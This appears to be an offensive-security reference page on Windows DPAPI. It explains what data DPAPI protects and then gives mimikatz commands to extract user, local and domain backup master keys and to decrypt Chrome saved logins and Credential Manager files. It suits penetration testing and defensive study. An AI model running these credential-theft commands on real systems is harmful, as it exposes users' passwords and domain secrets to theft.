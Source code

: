 # DPAPI secrets

## DPAPI

The DPAPI \(Data Protection API\) is an internal component in the Windows system. It allows various applications to store sensitive data \(e.g. passwords\). The data are stored in the users directory and are secured by user-specific master keys derived from the users password. They are usually located at:

```text
C:\Users\$USER\AppData\Roaming\Microsoft\Protect\$SUID\$GUID
```

Application like Google Chrome, Outlook, Internet Explorer, Skype use the DPAPI. Windows also uses that API for sensitive information like Wi-Fi passwords, certificates, RDP connection passwords, and many more.

#### DPAPI protects the following personal data:

* Passwords and form auto-completion data in Internet Explorer, Google \*Chrome
* E-mail account passwords in Outlook, Windows Mail, Windows Mail, etc.
* Internal FTP manager account passwords
* Shared folders and resources access passwords
* Wireless network account keys and passwords
* Encryption key in Windows CardSpace and Windows Vault
* Remote desktop connection passwords, .NET Passport
* Private keys for Encrypting File System \(EFS\), encrypting mail S-MIME, other user's certificates, SSL/TLS in Internet Information Services
* EAP/TLS and 802.1x \(VPN and WiFi authentication\)
* Network passwords in Credential Manager
* Personal data in any application programmatically protected with the API function CryptProtectData. For example, in Skype, Windows Rights Management Services, Windows Media, MSN messenger, Google Talk etc.

Below are common paths of hidden files that usually contain DPAPI-protected data.

```text
C:\Users\$USER\AppData\Local\Microsoft\Credentials\
C:\Users\$USER\AppData\Roaming\Microsoft\Credentials\
```

## Extract a master key

f you know the password of the user who the master key belongs to and you can access the master key file you can obtain the master key with mimikatz and a command like the following one:



```text
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /sid:S-1-5-21-2552734371-813931464-1050690807-1106 /password:123456 /protected
```

### Extract all local Master Keys with Administrator <a id="extract-all-local-master-keys-with-administrator"></a>

If you are administrator you can obtain the dpapi master keys using:

```text
sekurlsa::dpapi
```

### Extract all backup Master Keys with Domain Admin <a id="extract-all-backup-master-keys-with-domain-admin"></a>

A domain admin may obtain the backup dpapi master keys that can be used to decrypt the encrypted keys:

```text
lsadump::backupkeys /system:dc01.offense.local /export
```

Using the retrieved backup key, let's decrypt user's `spotless` master key:

```text
dpapi::masterkey /in:"C:\Users\spotless.OFFENSE\AppData\Roaming\Microsoft\Protect\S-1-5-21-2552734371-813931464-1050690807-1106\3e90dd9e-f901-40a1-b691-84d7f647b8fe" /pvk:ntds_capi_0_d2685b31-402d-493b-8d12-5fe48ee26f5a.pvk
```

We can now decrypt user's `spotless` chrome secrets using their decrypted master key:

```text
dpapi::chrome /in:"c:\users\spotless.offense\appdata\local\Google\Chrome\User Data\Default\Login Data" /masterkey:b5e313e344527c0ec4e016f419fe7457f2deaad500f68baf48b19eb0b8bc265a0669d6db2bddec7a557ee1d92bcb2f43fbf05c7aa87c7902453d5293d99ad5d6
```

### Credential Files

The **credentials files protected by the master password** could be located in:

```text
dir /a:h C:\Users\username\AppData\Local\Microsoft\Credentials\
dir /a:h C:\Users\username\AppData\Roaming\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\
Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

You can use **mimikatz module** `dpapi::cred` with the appropiate `/masterkey` to decrypt:

```text
dpapi::cred /in:C:\path\to\encrypted\file /masterkey:<MASTERKEY>
```




